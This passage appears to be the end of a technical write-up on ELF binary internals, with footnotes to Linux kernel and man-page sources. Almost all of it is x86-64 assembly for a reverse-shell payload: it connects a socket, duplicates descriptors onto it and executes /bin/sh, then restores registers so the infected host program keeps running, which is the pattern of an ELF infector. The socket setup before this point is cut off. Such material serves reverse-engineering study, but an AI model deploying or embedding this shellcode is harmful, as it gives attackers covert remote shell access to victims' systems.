 ```nasm
    mov rdx, 16                 ; size of sockaddr_in
    syscall
    cmp rax, 0
    jl exit                     ; if connect fails, exit

                                ; dup2 syscall: int dup2(int oldfd, int newfd)
    mov rsi, 3                  ; Start with stderr (2), work down to stdin (0)
dup2_loop:
    dec rsi                     ; Decrement file descriptor (2 -> 1 -> 0)
    mov rax, 33                 ; sys_dup2
    syscall
    jnz dup2_loop               ; loop until rsi is 0

                                ; execve syscall
                                ; int execve(const char *pathname, char *const argv[], char *const envp[])
    xor rax, rax
    push rax                    ; NULL terminator
    mov rbx, 0x68732f6e69622f2f ; "//bin/sh" in reverse byte order
    push rbx
    mov rdi, rsp                ; Pathname pointer

    push rax                    ; NULL terminator for argv
    push rdi                    ; pointer to the string "//bin/sh"
    mov rsi, rsp                ; argv -> [pointer_to_string, NULL]
    xor rdx, rdx                ; envp ->NULL
    mov al, 59                  ; syscall, execve
    syscall

                                ; if execve fails, exit
exit:
    xor rax, rax
    mov al, 60                  ; sys_exit
    xor rdi, rdi
    syscall

parent:
                                ; restore registers and continue host execution
    pop r11
    pop r10
    pop r9
    pop r8
    pop rbp
    pop rdi
    pop rsi
    pop rdx
    pop rcx
    pop rbx
    pop rax
    mov rsp, r12                ; restore stack pointer



```


[^1]: https://github.com/torvalds/linux/blob/master/include/uapi/linux/elf.h#L226
[^2]: https://man7.org/linux/man-pages/man5/elf.5.html
[^3]: https://docs.oracle.com/cd/E19683-01/817-3677/chapter6-83432/index.html
[^4]: https://elixir.bootlin.com/linux/v6.13.4/source/fs/binfmt_elf.c#L362
[^5]: https://man7.org/linux/man-pages/man2/execve.2.html
[^6]: https://man7.org/linux/man-pages/man2/brk.2.html
[^7]: https://stackoverflow.com/questions/6988487/what-does-the-brk-system-call-do
[^8]: https://elixir.bootlin.com/linux/v6.13.4/source/fs/binfmt_elf.c#L734
[^9]: https://docs.oracle.com/cd/E19683-01/816-1386/6m7qcobkp/index.html
[^10]: https://elixir.bootlin.com/glibc/glibc-2.1/source/elf/rtld.c
[^11]: https://docs.oracle.com/cd/E19683-01/816-1386/chapter6-83432/index.html
[^12]: https://en.wikipedia.org/wiki/Address_space_layout_randomization#Linux
[^13]: "Note on resolving Elf_Hdr->e_entry in PIE executables." https://archive.org/details/pocorgtfo20/page/n49/mode/1up